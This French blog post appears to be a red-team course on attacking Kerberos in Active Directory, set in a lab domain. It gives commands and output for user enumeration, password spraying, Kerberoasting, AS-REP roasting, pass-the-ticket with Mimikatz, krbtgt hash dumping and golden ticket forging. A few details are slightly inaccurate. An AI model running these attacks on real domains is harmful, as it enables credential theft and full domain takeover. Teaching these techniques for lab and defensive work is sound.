

+++
author = "Enzo"
title = "AD - Attaquer Kerberos"
date = "2026-03-27"
categories = [
    "Red Team"
]
tags = [
    "Windows",
    "AD",
    "Kerberos",
    "CTF",
    "Cours"
]
+++
# AD : Attaquer Kerberos

## C'est quoi Kerberos ? 
Kerberos est un service d'authentification propre à Windows, il est sensé être le remplaçant de NTLM car mieux sécurisé. Il utilise un chiffrement à clé symétrique et demande une authentification externe pour vérifier l'identité d'un utilisateur. Il à besoin de 3 entités (d'où son nom). Bien qu'il soit propre à Windows nous pouvons trouver des implémentations dans les sytèmes Linux, FreeBSD, MacOS etc. 

Kerberos nous offre une amélioration significative comparé aux autres services d'authentification antérieur (type NTLM), un chiffrement renfocé et un acteur externe compliquent la tâche en Red Teaming. 

Bien qu'il soit plus sécurisé que ses prédécesseurs il n'est pas infaillible, nous allons voir ça dans ce poste. 

## Comment fonctionne kerberos ?
Tout d'abord voici les acronymes nécessaire pour comprendre le fonctionnement de kerberos : 
| Nom                          | Diminutif | Rôle                                                                                                                                                                                                 |
|------------------------------|-----------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Ticket Granting Ticket       | TGT       | Un TGT est un ticket d'authentification utilisé pour demander des tickets de service au TGS pour des ressources spécifiques du domaine.                                          |
| Key Distribution Center      | KDC       | Le KDC est un service qui émet les TGT et les tickets de service, composé du Service d'Authentification (AS) et du Tickets Granting Service (TGS).                      |
| Authentication Service       | AS        | L'Authentication Service émet des TGT à utiliser par le TGS dans le domaine pour demander l'accès à d'autres machines et des tickets de service.                                                |
| Ticket Granting Service      | TGS       | Le Ticket Granting Service prend le TGT et retourne un ticket pour une machine du domaine.                                                                                                      |
| Service Principal Name       | SPN       | Un Service Principal Name est un identifiant donné à une instance de service pour associer cette instance à un compte de service de domaine. Windows exige que les services aient un compte de service de domaine, d'où la nécessité de définir un SPN. |
| KDC Long Term Secret Key     | KDC LT Key| La clé KDC est basée sur le compte de service KRBTGT. Elle est utilisée pour chiffrer le TGT et signer le PAC.                                                                                       |
| Client Long Term Secret Key  | Client LT Key | La clé client est basée sur le compte de l'ordinateur ou du service. Elle est utilisée pour vérifier l'horodatage chiffré et chiffrer la clé de session.                                              |
| Service Long Term Secret Key | Service LT Key | La clé de service est basée sur le compte de service. Elle est utilisée pour chiffrer la partie service du ticket de service.                                                       |
| Session Key                  | SK        | Émise par le KDC lorsqu'un TGT est délivré. L'utilisateur fournira la clé de session au KDC avec le TGT lors de la demande d'un ticket de service.                                                   |
| Privilege Attribute Certificate | PAC     | Le PAC contient toutes les informations pertinentes de l'utilisateur. Il est envoyé avec le TGT au KDC pour être signé par la Clé LT Cible et la Clé LT KDC afin de valider l'utilisateur.          |


Le fonctionnement de kerberos est plutôt simple, nous allons décortiquer les étapes d'une authentification : 

1. [AS-REQ] Le client envoie une requête de TGT au KDC.
2. [AS-REP] si la requête est complète le KDC envoi le TGT au client avec une SK.
3. [TGS-REQ] avec ce TGT le client envoi une requête de TGS avec le SPN que le client veut joindre.
4. [TGS-REP] Le KDC verifie le TGT de l'utilisateur, si c'est "OK" le KDC envoie le TGS avec une SK pour la ressource.
5. [AP-REQ] Le client envoi une requête au serveur voulu avec sa SK.
6. [AP-REP] Le serveur authentifie le client.


## Quelle sont les attaques possible ? 
| Nom de l'attaque          | Privilège requis                                                                 |
|---------------------------|----------------------------------------------------------------------------------|
| Kerbrute Enumeration      | Aucun accès au domaine requis                                                   |
| Pass the Ticket           | Accès en tant qu'utilisateur au domaine requis                                  |
| Kerberoasting             | Accès en tant qu'utilisateur quelconque requis                                  |
| AS-REP Roasting           | Accès en tant qu'utilisateur quelconque requis                                  |
| Golden Ticket             | Compromission complète du domaine (administrateur de domaine) requise           |
| Silver Ticket             | Hash du service requis                                                           |
| Skeleton Key              | Compromission complète du domaine (administrateur de domaine) requise           |

## Kerbrute Enumeration
En réalisant un brute-force sur l'annuaire ldap avec kerbrute nous pouvons retrouver énormément d'utilisateurs de l'AD, ce qui est intéressants car avec ce genre de brute-force aucune alerte ne sera envoyer au SOC, sauf si la pré-authentification est activé. 

### Installation de kerbrute 
1. Télécharger le binaire https://github.com/ropnop/kerbrute/releases
2. Renommer kerbrute_{OS}_{Arcitecture} en kerbrute
3. Se donner les droits à l'execution puis le rendre executable
4. Exécuter le binaire 

### Enumerer les utilisateurs
````Bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt 
````
- `userenum` : Demande a Kerbrute d'énumérer les utilisateurs
- `--dc` : Spécifie le Domain Controller, nous devons mettre le nom de domaine ici, il est docn important de déclarer le NDD dans `/etc/hosts`
- `-d` : Déclare le Domain
- `User.txt` : Donne une wordlist d'utilisateurs 
Cette commande va nous rendre une sortie sous cette forme : 
````Bash

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/27/26 - Ronnie Flathers @ropnop

2026/03/27 10:35:28 >  Using KDC(s):
2026/03/27 10:35:28 >  	CONTROLLER.local:88

2026/03/27 10:35:28 >  [+] VALID USERNAME:	 administrator@CONTROLLER.local
2026/03/27 10:35:28 >  [+] VALID USERNAME:	 admin1@CONTROLLER.local
2026/03/27 10:35:28 >  [+] VALID USERNAME:	 admin2@CONTROLLER.local
[...]
````

## Harvesting & Brute-Forcing Ticket

### Harvesting Ticket
Pour effectuer cette attaque il faut un accès à une machine. 

Une fois notre accès à la machine nous devons télécharger Rubeus : 
````Powershell
wget https://github.com/GhostPack/Rubeus/releases/tag/1.6.4
# Il faut le dézipper 
Rubeus.exe harvest /interval:30
````
Avec cette commande, Rubeus va essayer de récolter des TGT toutes les 30 secondes. 

Voilà notre sortie de commande : 
````Bash 
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0 

[*] Action: TGT Harvesting (with auto-renewal)        
[*] Monitoring every 30 seconds for new TGTs
[*] Displaying the working TGT cache every 30 seconds 


[*] Refreshing TGT ticket cache (3/27/2026 3:51:55 AM) 

  User                  :  CONTROLLER-1$@CONTROLLER.LOCAL
  StartTime             :  3/27/2026 3:20:00 AM
  EndTime               :  3/27/2026 1:20:00 PM
  RenewTill             :  4/3/2026 3:20:00 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  Base64EncodedTicket   :

    doIFhDCCBYCgAwIBBaEDAgEWooIEeDCCBHRhggRwMIIEbKADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyiJTAjoAMCAQKhHDAaGwZr 
    cmJ0Z3QbEENPTlRST0xMRVIuTE9DQUyjggQoMIIEJKADAgESoQMCAQKiggQWBIIEEhWRQpLWgQvzyl9TzCtgjddJp2zZciEqTHrb 
    Jnt2FNdxY0Ky2g7mZ7F18qIaE8H+CZqUNJ4gtTCPIQf+KAV65A9oJsWc183gUW6f2O8vUVkFWnD7MplzcdKWoNwjpQ1RmzQ+lRx5 
    YcEJkNfXvy5/UjxWxm/oYOpdRBJcCVMUN+plpJLVkmT4pdlYjLDARHuV3jmMsAIlpJrEBeLRuJQsr4w6ka9Fql3LgaXOSeSJ2/Dq 
    zf6x641VJoFaMQhDIkoH72t9SX5CQ159ODXYrRfHq1rjcPRdbxK6SMi90XmjmOspgicItpUTUzPtKVGvmmqrLl2/mP46JiiOqlaN 
    wZ6GZmP+Sj+dPBlNcJy7cxkGjBTKuOXiQ+LE/1UCaBsnJIoXRnebaXKsZVjQr65n1CpECItOHLLHoEG8v+DTWhK9b1Ifid37GTd/ 
    X3P/xUF8gTCNBb/VLJwF9NrBtmyF2i0UgqgVX0Tb/4o99txurdWEgoc69MZAvBkyTpwLw+7UdghndKhx9v4qhQPypEyzuLsIY1Sl 
    ZUlMxzFz8YFHHm2jHa5WjcYaGJUNrcUmw61mgtaHz2mo0hBuJ4M4/i1k+jX/4gXnWEgTBebEiUgSc7RV5y1N2tZ79K7LnJ3er1oa 
    3NflvAXeWgGXM6aEzxk8MW2QEBWCd/ksYavCOLPwKVSdp1UY/UJXQ0uL715tLDmjIkmVt2+WknmdqJXaI6eIWkzExAQza5CY3Nwa 
    yLzVbcqSddbNL6Rp45YmYkvyhC0xRByt+jvf7xH7CcysKFcG3fl3UCYyhiej50uQTT4zTpj24JwdmfCNjuLn+4Db7CpRAKB75Q1d 
    EUKLoDkG4HMNHfw+sU8W22pnOFzpoDhuiBIt9fahoRPMSgwn4yaWkokaSagAdc9loyy7MGez48LgzhU5b9dacBxutbLNe0lpgdiF 
    lDoNcUJOCX4F2f34zdfYwBQT67SgR2M9HnQDr12JNepe+j1twzB47Bzxlu5XN/sQiEO9NoiRJrSozzLivw02S/1l6aW89m3bGe/a 
    HtpJX7nzPjx6vOEJNXv0XlAbBxT7+g1Fh8TssyWBR1Zze6NNhtURbeCq3Epm4nLvhq9Wz6s1n8dKFosT014wGHGuEiD4UtkUQBLC 
    FLV9JkHwh4KGLtd4hTACw4CwnqKnITwnoDpo/pXegSLNvqenlA4W3PtLDBb6+UuJOagiRbKYJl9NeadqTOphSvMK+DCqUXk3Fdz2 
    wRLC66O7j2VwghGAFKC1B6jTwkaSNLu4ONi9gyg1igud7RJCR6X2Lt/kegq10Y79RxhGY53Oh3+skcLHgarSuTjHli6Dmc6cM6QE 
    jFD9yObqyKb7+XUNNWsWLL56/U7tOzvbzx42BEaAASKBwgvXxCwMmgejgfcwgfSgAwIBAKKB7ASB6X2B5jCB46CB4DCB3TCB2qAr 
    MCmgAwIBEqEiBCBe6Xo/L/JuYJyZFMwb64WpqL7kSPfT1jUKTIWlpyRGlaESGxBDT05UUk9MTEVSLkxPQ0FMohowGKADAgEBoREw 
    DxsNQ09OVFJPTExFUi0xJKMHAwUAQOEAAKURGA8yMDI2MDMyNzEwMjAwMFqmERgPMjAyNjAzMjcyMDIwMDBapxEYDzIwMjYwNDAz 
    MTAyMDAwWqgSGxBDT05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLkxPQ0FM
[...]
````

### Brute-Forcing
Pour faire un brute-force nous allons également utiliser Rubeus, mais avec l'argument ``brute`` : 
````Powershell
Rubeus.exe brute /password:Password1 /noticket
````
- `brute` : Pour déclarer le fait que nous voulons réaliser un brute-force
- `/password` : Sert à déclarer que nous voulons tester tout les utilisateurs possible avec le mot de passe voulu
- `/noticket` : Pour ne pas demander un ticket

Voici le retour de cette commande : 
````Bash
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[-] Blocked/Disabled user => Guest
[-] Blocked/Disabled user => krbtgt
[+] STUPENDOUS => Machine1:Password1
[*] base64(Machine1.kirbi):

      doIFWjCCBVagAwIBBaEDAgEWooIEUzCCBE9hggRLMIIER6ADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyi
      JTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIubG9jYWyjggQDMIID/6ADAgESoQMCAQKiggPx
      BIID7YzfH3XEE4vBIzp7MGyX10RHgIxVSOw61LrQXK7HrlWi+HgiTHxNf+CMmq0NV/OiFEn2RAR4o1Cd
      mRshQzrOG+r4rSmuYgDIwHaJyNtEwLGT+M03M9VTyXwsjxWvMYKoP+aVBjHTvbTRcCS/0hTARMPWyO05
      Cl6ckEoDIDY2pyZ8I734DE69FTWBbrWKUS/QjojS4uZ9brdPCriwQZfl2dZo+WL2s3TldT5TrFIVjTvg
      fP2eGG0PjVJ5b90KqHJKxvb/d11bz8V/ogkujVu71pZVviZWfU8d5MY0AsrLmhyyRjSshp/ykCOCLe+g
      vZObwD1koLHsQEyHeABB+ZikFsyCiaOSnMvJ/wl1UkVac+SRi2yNnKhksB02RbT3JmIJHdU+1WshUfu6
      AphjAW/ta0CWBw2NVWtZn98Yp5qeei0aco8vLpmT48wWD+dC9HjQxCwRjKQlGi34oDXIYwiXs9kNeILE
      9aa3jXVxPuN/eR6coySCIPf5JC8vnLafi92smfXQflznLyr3P/GPagqk/n/YimVcCvTkPRoTMxJFsB97
      Evf8ieEPUB2pZCTptqqcAS5hIxq9fXJDN5ssByTqrsbwndwJ6cb1GOEJvSEkQ9tfHKkPHZ8t4+CO9NkG
      kL4qtN9uhk5zcRAEoMHgAxingK7kSp+U8rUU/uLVwWFi64NRPGC4Q+7E4DhNb0CEcWagOtzVd9UBmLxN
      mbbHqg7zQfNvK0SxNPYLBxd6LlVq5R3bnpODIt0tEETrFudfJeCMFQlSciI27OdcnHAxGmsZPn8eUmV2
      GqWFNqMudWEpjMfwb6QSKrGAVmop13G4fw9XtAQ8vJZXCbnorgSLeEBrM/2XHnVzX0cTCpxy0fLswxBb
      LQeckwmA21Zbb0fAKID53zlugAbqGfElwP3nneOtZjlFCdhvCuKzzmMS0baqvd9QLk0gcNrrWlyWeeIP
      Oq7juOZvCNp/eEgbU044+0Ycl6tX63/g3B6F1MlVHDOSZs8471vxK8hqS2YP3JoXOs8/XOyWj0FPGz8o
      84IoKPJRIx1w185u8Tq1CNesjKq1SoAz+XhtbCUX8GATxJW2Xk8fE3MSPp9dufJK+pyzEZVRDnRVrLUB
      wr9rMjj//+5DCq4CRtXl1olNFBkFkU6ouosAirkHOh4p6vbzt7hwxhICCcjiSDKxqB9FuSSlR2lTJQCw
      TeqiItPMlA6bpO8UQt5fMoeG5DCURu8+fArIdgolMVbJERPchwiOvj15WJXjCjtRqI4WW8eC+N2o8Eor
      8Ty+CcgWakFxq7f46iTU0O4MWZoMJn4Zyt4fl0Upe6I8mGNL+f6KeuVnJovDKaz57aOB8jCB76ADAgEA
      ooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIFpkfjUctKnJ2fQ48VIeheFyXfzda/3/WmOX
      2g/kHNduoRIbEENPTlRST0xMRVIuTE9DQUyiFTAToAMCAQGhDDAKGwhNYWNoaW5lMaMHAwUAQOEAAKUR
      GA8yMDI2MDMyNzExMDAxM1qmERgPMjAyNjAzMjcyMTAwMTNapxEYDzIwMjYwNDAzMTEwMDEzWqgSGxBD
      T05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLmxvY2Fs

[+] Done
````

## Kerberoasting
Cette attaque permet à un utilisateur de demander un TGS pour n'importe quel service disposant d'un SPN (et vu que TOUT les services utilisant Kerberos doit avoir un SPN pour chiffrer le TGS nous pouvons demander un TGS à tous les services, à condition d'avoir un compte valide), pour ensuite utiliser ce TGS pour cracker le mot de passe du service. Cette attaque est possible à partir du moment qu'un service possède un SPN, le seul moyen de s'en protéger est d'avoir des mots de passe robuste. 

Dans ce poste nous allons utiliser 2 outils pour réaliser cette attaque, Rubeus (oui, encore), et Impacket. Il existe évidemment d'autres outils pour réaliser cette attaque on peu cité Kekeo ou encore Invoke-Kerberoast. 

### Rubeus 
Commande très simple (compliqué de faire plus simple) : 
````Bash
Rubeus.exe kerberoast
# J'avais prévenu... 
````
Cette commande nous renvoie cette sortie : 
````Bash
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts. 
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts. 

[*] Searching the current domain for Kerberoastable users

[*] Total kerberoastable users : 2


[*] SamAccountName         : SQLService
[*] DistinguishedName      : CN=SQLService,CN=Users,DC=CONTROLLER,DC=local
[*] ServicePrincipalName   : CONTROLLER-1/SQLService.CONTROLLER.local:30111
[*] PwdLastSet             : 5/25/2020 10:28:26 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.loca 
                             l:30111*$B520460B8D0F2F66262C5DBFAB16EDE8$31CAE2DB15F0E6A192B55F64E3252C23FC5FFD 
                             508D7FC4E62EF66209A9DEFCA978F434CBE4E131A1026F5ACBFFA22ECD13866C376418F6040DDC12
                             80F9C0C14C1C202A8588E3354391E2390BF1B808444FE4914F8A20E7976DE0D4AD263BDABC9B3223
                             45661604B79D24F02C667995E53D4CA310C403DCC5B44A82133DC84043CC72DCBD1E205201A415E2
                             C659377B1E0FFEA00B5B29D03D3ED66CB6BCE541A6A432C34CF7D836B80C98475528EDC181A0141B
                             259CD18CD350B5907174F9A0A4488FA7AA0E61BD36994FB7EF34D7B1A0A95F464257C1BEBE97F3F4
                             12A10DA5F0AAA8082EDAAF8966CD021151B323C0368761E92317DB33269C03F0A8EB3C073FC6DD9B
                             D739042DB473F88DC66C375FD1B9649FDB86A3F6F69962459464026FB417FD37A43CF0E04C95FB34
                             03591405C78FB42227F0425ECDFF4D53875F94AF15583BD1F4E8660938F1CAF87971BC48FD6D61C9
                             1900A75EC86438C311E6AEE73B849E50345707F56205E6C0AF4045035B6771266C7965CDA2C713BC
                             0CCE747EF79FAD04B1075771DDCFA2AA54EB05D573383B2259B04F7EFE9383B79AFA1ED0B6AC8082
                             61085289519357D10C1BA52807A00D0E2ECD2DEDEAFA3162E7D9B7B4C1A86107F3825435FF972DFE
                             05B3D9ED6AC2BFAE8615F223C1BA0299270E6CE53CF60369E68524B374575B1DDA90E2B777136C97
                             EF9D7A45678D4F68195CF5E21FF51982B04AA7B03C955699B3917A0B4961E456CC6070ADEDDF6722
                             1B796A4073EA2AC371CC1867AC775D3674B7A78837D2B6D7265A552B4876C60778101F69AD910DBA
                             4E766E368B9243856860E675236531C21A6C30197723E5BC21F70AB140FA9270C23D6CF7C75D8BB2
                             4DD95087BCB3B30A5536C7DA0ED771588926E55F53000F617FD17AA8CF4863B6F2249F9C68E148EA
                             CC6C8770A8F79EA93996837985CA4BEF7660B735608C43C2E19529362F8C69C4EB791681066DBD56
                             DB0BABCB173128276E2EB6CCE230D90627B15DF5891361020A765358496C9E8B2EA0357525367434
                             65974B7A85292418D9BEB90D3486C688477A82FB373AD2ABEF16DD4305050E113FA260B0FDD6C1F6
                             C2CD7CA7BF83D19E2D99FBC36DB770A42748084AF25ECDD9F96C0A615ECAE4C8F4D5D662B180CF6F
                             61E539F3F8A8B209B829670A1997529D1A2E539551C47438B517290E582EA2C079335C71F5BF0A70
                             9C598F8C6DCA51A0AE93BDCBBC986B7B0402DC0636EA36188756C3AEA56151AB7CFE1CC3DC2F41AF
                             E09C5E312456EC8D7CE696912D0ECACBA3D99CBC2C16BCF2EF6EB92A5C11C7CF62BD1F951D2B3C3F
                             359B9EC3DEBB968280518571A0BFF5AB3E7ECDEDC284568644309738B883256B7AEAAFAE84F4DEE9
                             6C3A27329A0FE166736074F2AEC1D34368821B73116E82D657AFB72556066365E523AD807D2B75B4
                             65CF47D34C99CD648C86C2EE07CBA08DFAB85D9AFD224D8F4EAA74C4F03D81B6C3B987BE18279A3E
                             7154CA3BE9659C33FA5BE0775D1B60CF1F6C0F63AC9D829F4525DB6EDDE1A3609A15C7C2B7B15F01
                             D90F049E54DE0A0A4C11045385BA01A25D843EDF072593F1136206FCD409FF9E99BCE3C6F55C21FF
                             93A52137320F4B7400A1B2D12178B1A9B500AFB1B7FED7AED57F2370D4
[...]
````

Une fois le hash récupéré nous avons plus qu'a le passer dans ``hashcat`` avec le "mode" ``13100`` : 
````Bash
hashcat -m 13100 hashkerb.txt wordlist.txt
````

### Impacket
Tout d'abord il faut installer Impacket : 
````Bash
wget https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_13_0
cd Impacket_0_13_0
pip install . 
````

Une fois installer nous pouvons commencer l'explitation : 
````Bash
cd examples
python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.129.164.62 -request
````
Ensuite nous mettons le hash qui nous intéresse dans un fichier txt puis nous lançons la même commande hashcat.

## AS-REP Roasting
Lors de la pré-authentification, le hash de l'utilisateur sera utilisé pour chiffrer un timestamp que le DC tentera de déchiffrer afin de valider que le bon hash est utilisé et qu'il ne s'agit pas d'une réutilisation d'une requête précédente. Après validation de l'horodatage, le KDC émettra alors un ticket pour l'utilisateur.

Si la pré-authentification est désactivée, il est possible de demander des données d'authentification pour n'importe quel utilisateur, et le KDC renverra un ticket chiffré (avec le mot de passe de l'utilisateur) qui pourra être craqué hors ligne, car le KDC passe l'étape de vérification que l'utilisateur est bien celui qu'il prétend être.

Pour réaliser cette attaque nous allons utiliser ... Rubeus : 
````Powershell 
Rubeus.exe asreproast
````
Cette commande nous ressortira tout les compte asrep roastable : 
````Bash
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: AS-REP roasting

[*] Target Domain          : CONTROLLER.local 

[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2 
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local 
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::d5be:d5aa:ef52:2168%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful! 
[*] AS-REP hash: 

      $krb5asrep$Admin2@CONTROLLER.local:2790838C1C91447FD824B1901FEDD853$3CB906230B2C
      3C721E906B24A34EC98C01AD616C28115D2B7F9401FAE22A50CFF93056354CA7F21FE4DB9F5FDCC4
      6387E5786D2FA045C5604A8EA98C5EA6C0C513668B55DBE57FD4680CE61BAF1B1DB42D72EF60D1CB
      1EA947709F960527937293F29753F5981085690485933CA4897847549E51E8455C7286253006180F
      9B6476AE51EBA988C4EEA280D722CA33C19BDAEF4BEC5DDEE3451C93CC0F305B6A86A4B1A50A62BC
      12AB19B11DF8349A789E925F5E401DD1E92FDED1D9079B16EC679B71436030F7868629D20B1E58A8
      823876BDFD2C3BE5B829D41672C548FF026952F834CD0603C78EEB215E256A1157D97D2DB0D5

[*] SamAccountName         : User3
[*] DistinguishedName      : CN=User-3,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::d5be:d5aa:ef52:2168%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\User3'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$User3@CONTROLLER.local:48B5C1890E3522AA4A81A1A6321A68A7$B2DF11BB77AC7
      A780B55B59AEE17992BEFB93D46E082C4D1CF9233A45CCB46A0F351BC4087752F21F6DD3D18FA0D7
      9E775B18F2B2F4BC707953CEDA9EEABA323720BA722A210A28298FF0B903004434316BEFD3C8DC5B
      900CD883E476656E0CCA63E832BF109C613F287FC2760D7FFB0C6DB9E12E98171B7FF7B96F412838
      E8990BFD09E3BCBA1DB17284BD9A091B7582473D60A713263FF35583845509C2753E65494686B8B0
      2D9745BE31FA0A14F3695F1A4EE871957BC22CE4766DD415DBC45D35D8E2118823A9CD053F69477D
      315280EB554903E53E60C8177456BFECE2BEE62B47F259FFD87F84878B6CE3B80E1CB4A0C06
````
Nous devons ajouter le hash dans un fichier (ex: hashasrep.txt), une fois dedans, nous devrons modifier le hash. Juste après le ``$krb5asrep$`` nous devons rajouter un ``23$``
Ensuite, pour cracker ce mot de passe il faut lancer l'outil hashcat (encore) avec le mode 18200 : 
````Bash
hashcat -m 18200 hashasrep.txt Pass.txt
````

## Pass The Ticket
L'attaque Pass The Ticket consiste à extraire les Tickets de la mémoire LSASS (Local Security Authority Subsystem Service) de la machine. LSASS est un processus en mémoire qui stocke les informations d'identification sur un serveur Active Directory et peut conserver des tickets. Il agit comme un coffre fort.

L'attaque Pass The Ticket est particulièrement efficace pour l'élévation de privilèges et le mouvement latéral si des tickets de comptes de service du domaine non sécurisés sont disponibles.

Pour réaliser cette attaque nous utiliserons Mimikatz. Mimikatz est un outil extrêment puissant, je ferais un aticle dédié à cet outil.

Tout d'abord il faut télécharger mimikatz : 
````Powershell 
wget https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20220919
# Il faut dézipper le fichier
cd x64
./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
  ## v ##       Vincent LE TOUX             ( vincent.letoux@gmail.com )
   #####        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::tickets /export
````
Cette dernière commande va nous sortir des fichier en ``.kirbi``. 

Nous pouvons donc passer à l'exploitation de l'attaque PTT. Toujours dans mimikatz nous allons choisir un fichier qui nous intéresse (dans ce qu'on vient d'extraire avec mimikatz), à tout hazard un qui m'intéresse est le fichier suivant : 
> [0;3e7]-2-1-40e10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi

Ce qui va nous donner : 
````Powershell 
mimikatz # kerberos::ptt [0;3e7]-2-1-40e10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi 

* File: '[0;3e7]-2-1-40e10000-CONTROLLER-1$@krbtgt-CONTROLLER.LOCAL.kirbi': OK

mimikatz # exit

klist
Current LogonId is 0:0x207204

Cached Tickets: (1)

#0>     Client: CONTROLLER-1$ @ CONTROLLER.LOCAL
        Server: krbtgt/CONTROLLER.LOCAL @ CONTROLLER.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 3/27/2026 6:03:17 (local)
        End Time:   3/27/2026 16:03:17 (local)
        Renew Time: 4/3/2026 6:03:17 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
````
Avec la commande ``klist`` nous pouvons voir que nous avons "voler" l'identité du compte ``krbtgt``.

## Golden/Silver Ticket 
Un Golden Ticket est un ticket forgé et signé avec le Hash NT que nous aurons dump au préalable, un Silver Ticket est la même chose mais pour un compte de service ou d'admin du domaine. 

Cette extraction permet d'obtenir : 
- SID de l'utilisateur cible
- le hash du mot de passe du la cible

Pour cette attaque, nous utiliserons ``Mimikatz``.

````Powershell
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
  ## v ##       Vincent LE TOUX             ( vincent.letoux@gmail.com )
   #####       > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug 
Privilege '20' OK

mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : CONTROLLER / S-1-5-21-432953485-3795405108-1502158860 

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 72cd714611b64cd4d5550cd2759db3f6
    LM   :
  Hash NTLM: 72cd714611b64cd4d5550cd2759db3f6 
    ntlm- 0: 72cd714611b64cd4d5550cd2759db3f6
    lm  - 0: aec7e106ddd23b3928f7b530f60df4b6
[...]
````
Maintenant nous avons les infos dont nous avons besoin, nous pouvons donc forger notre Golden Ticket avec les infos suivantes : 
> 1. SID :  S-1-5-21-432953485-3795405108-1502158860

> 2. hash NTLM : 72cd714611b64cd4d5550cd2759db3f6

````Powershell 
Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:1103

misc::cmd 
````
Et voilà nous avons exploité l'attaque Golden/Silver Ticket. 

## Skeleton Key
L'attaque Skeleton Key exploite le mécanisme de pre-authentification de kerberos (à la toute première étape AS-REQ) en manipulant les timestamp chiffrés. Comme expliqué plus tôt, le timestamp est chiffré avec le hash NT de l'utilisateur. 

Une fois qu'une Skeleton Key est implantée sur le contrôleur de domaine, celui-ci essaie de déchiffrer l'horodatage à la fois avec le hachage NT de l'utilisateur et avec le hachage NT de la Skeleton Key. Cela permet à un attaquant d'accéder à l'ensemble du domaine sans connaître le mot de passe réel des utilisateurs, car le contrôleur de domaine accepte désormais deux clés de déchiffrement.


